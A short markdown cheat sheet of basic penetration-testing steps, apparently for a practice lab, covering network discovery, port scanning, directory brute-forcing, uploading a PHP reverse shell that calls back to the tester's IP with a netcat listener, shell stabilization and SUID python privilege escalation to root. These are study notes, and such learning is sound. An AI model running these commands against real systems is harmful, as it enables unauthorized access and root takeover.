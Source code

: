 
# 🛠️ Basic Pentesting Notes

---

## 🔍 Reconnaissance

### 🔧 Tool: `netdiscover`
- **Purpose:** Discover live IPs in the local network.
```bash
sudo netdiscover -r 192.168.1.0/24
```

### 🔧 Tool: `nmap`
- **Purpose:** Port scanning, service enumeration, OS detection.
```bash
sudo nmap -A -T4 192.168.1.10
```

---

## 📡 Scanning & Enumeration

### 🔧 Tool: `gobuster`
- **Purpose:** Discover hidden web directories and files.
```bash
gobuster dir -u http://10.10.203.245 -w /usr/share/wordlists/dirb/common.txt
```

---

## 🚪 Gaining Access

### 🔧 PHP Reverse Shell (Pentestmonkey)
- **Steps:**
  1. Download from: [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
  2. Edit the IP and port (replace with your machine's IP, **not** the target):
     ```php
     $ip = 'YOUR_IP';
     $port = 4444;
     ```
  3. Upload the shell (e.g., `shell.php`) and trigger it from the browser.

### 🔧 Tool: `netcat`
- **Purpose:** Listen for incoming reverse shell.
```bash
nc -lvnp 4444
```

---

## ⚙️ Shell Stabilization

### 🔧 Why Stabilize?
- Raw shells often lack:
  - Arrow keys, tab-completion
  - Support for `nano`, `sudo`, `passwd`, etc.
  - Signal handling (like Ctrl+C)

### 🔧 How To:
In the reverse shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then press:
```
Ctrl + Z
```
Run the following locally:
```bash
stty raw -echo; fg
export TERM=xterm
```

---

## ⬆️ Privilege Escalation

### 🔧 Finding SUID Binaries
- **SUID** files run with the permissions of their owner (often root).
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

### 🔧 Example: `python` with SUID

Use GTFOBins technique if `python` is SUID:
- Reference: [https://gtfobins.github.io/gtfobins/python/#suid](https://gtfobins.github.io/gtfobins/python/#suid)

```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
whoami
```
- If it returns `root`, escalation succeeded.

---
